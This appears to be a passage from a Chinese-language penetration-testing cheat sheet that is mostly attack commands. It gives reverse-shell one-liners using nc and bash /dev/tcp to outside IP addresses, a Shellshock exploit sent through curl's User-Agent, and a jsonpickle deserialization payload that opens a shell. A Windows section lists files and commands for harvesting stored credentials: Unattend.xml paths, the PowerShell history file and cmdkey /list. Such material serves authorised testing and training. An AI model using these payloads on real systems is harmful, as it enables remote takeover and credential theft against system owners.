 ### 第三版
写入 python 脚本
```
echo 'import os; os.system("/bin/nc 10.10.16.2 8889 -e /bin/bash")' > /opt/tmp.py
```
## 写入 shell
```
echo 'bash -i >& /dev/tcp/192.168.61.135/4444 0>&1' > 脚本名
```

### shellshock 破壳漏洞

```
curl -A "() { :; }; /bin/bash -c 'nc 192.168.20.128 8888 -e /bin/sh'" http://192.168.20.133/cgi-bin/underworld
curl将bash命令作为特殊请求的User-Agent进行传递，实际上nc反弹shell的命令是由Bash执行的
```


## json 反弹 shell
```
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc -nv 169.254.5.136 8888 -e /bin/bash"]}, null, null, null]}
```
# Windows

## 一些弱点：

Windows 服务或计划任务上的错误配置
    
分配给我们帐户的过多权限
    
Vulnerable software  易受攻击的软件

缺少 Windows 安全补丁

## 遇到无人值守

此类安装需要使用管理员帐户来执行初始设置

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## powershell历史记录
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

## 保存的Windows凭证
cmdkey /list
